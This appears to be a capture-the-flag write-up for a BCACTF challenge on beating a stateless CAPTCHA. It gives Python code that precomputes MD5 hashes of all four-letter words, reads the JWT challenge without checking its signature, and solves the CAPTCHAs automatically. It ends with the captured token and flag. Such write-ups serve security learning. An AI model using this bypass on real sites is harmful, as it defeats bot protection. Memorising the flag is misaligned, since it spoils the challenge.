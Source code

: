 > Can you bypass this website's new stateless CAPTCHA system?

---

Seems to be a MD5 captcha system.
# First we will generate the entire hash table for 4 letter words.

```python
import hashlib  
import pickle  
  
md5_hash_table = {}  
for i in range(26 ** 4):  
    perm = ''  
    for j in range(4):  
        perm += chr(65 + (i // (26 ** j)) % 26)  
    md5_hash_table[hashlib.md5(perm.encode('utf-8')).hexdigest()] = perm  
  
with open("hash_table.pkl", "wb") as f:  
    pickle.dump(md5_hash_table, f)
```

# Then, we will solve the captcha, and get the flag.

```python
import pickle  
from tqdm import tqdm  
import jwt  
import requests  
  
with open("hash_table.pkl", "rb") as f:  
    loaded_hash_table = pickle.load(f)  
  
url = "http://challs.bcactf.com:30477/captcha"  
data = requests.post(url, json={"routeId": "/flag"}).json()  
for i in tqdm(range(data['total'])):  
    captchaToken, solved, total, done = data['captchaToken'], data['solved'], data['total'], data['done']  
    decoded = jwt.decode(captchaToken, algorithms=["HS256"], options={"verify_signature": False})  
    h = decoded['challengeId']  
    d = loaded_hash_table[h]  
    data = requests.post(url, json={"captchaToken": captchaToken, "word": d}).json()  
print(f"http://challs.bcactf.com:30477/flag?token={data['captchaToken']}")
```

Simple.
```
http://challs.bcactf.com:30477/flag?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjYXB0Y2hhSWQiOiJkOWE5ZThiNi1hODUwLTQ5NDQtYTEwNC0wMmJiYTYyNDJhMTMiLCJyb3V0ZUlkIjoiL2ZsYWciLCJjaGFsbGVuZ2VJZCI6bnVsbCwic29sdmVkIjo3NSwidG90YWwiOjc1LCJkb25lIjp0cnVlLCJpYXQiOjE3MTc5NzMwMzQsImV4cCI6MTcxNzk3MzA5NH0._XcYLLZL_YJ8GpngWfDsp_fAz-G_92NSXUEwoTIdhC4
```

> # The Flag
> bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}